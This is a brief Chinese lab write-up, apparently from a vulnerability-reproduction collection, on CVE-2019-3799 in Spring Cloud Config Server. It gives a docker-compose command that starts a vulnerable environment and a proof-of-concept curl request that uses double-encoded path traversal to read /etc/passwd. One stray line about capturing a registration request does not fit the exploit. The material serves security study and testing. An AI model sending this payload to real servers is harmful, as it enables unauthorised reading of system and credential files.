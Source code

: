 ## ßSpring Cloud Config Server 路径穿越与任意文件读取漏洞分析 - （CVE-2019-3799）

Spring Cloud Config是Spring体系中一个基于http协议的远程配置管理实现方式。 通过统一的配置管理服务器进行配置管理，客户端可以通过https协议主动的拉取服务的配置信息，自动完成配置获取。

参考链接：

- https://xz.aliyun.com/t/4844

## 环境搭建

执行下面命令启动漏洞环境：

```
docker-compose up -d
```

稍等一会，环境启动后，访问`http://your-ip:8888`。

## 漏洞复现

参考前面链接中的Payload，在注册的时候抓包，并修改成如下数据包：


poc
```
curl http://*.*.*.*:8888/test/pathtraversal/master/..%252f..%252f..%252f..%252f../etc/passwd
```


![](1.png)
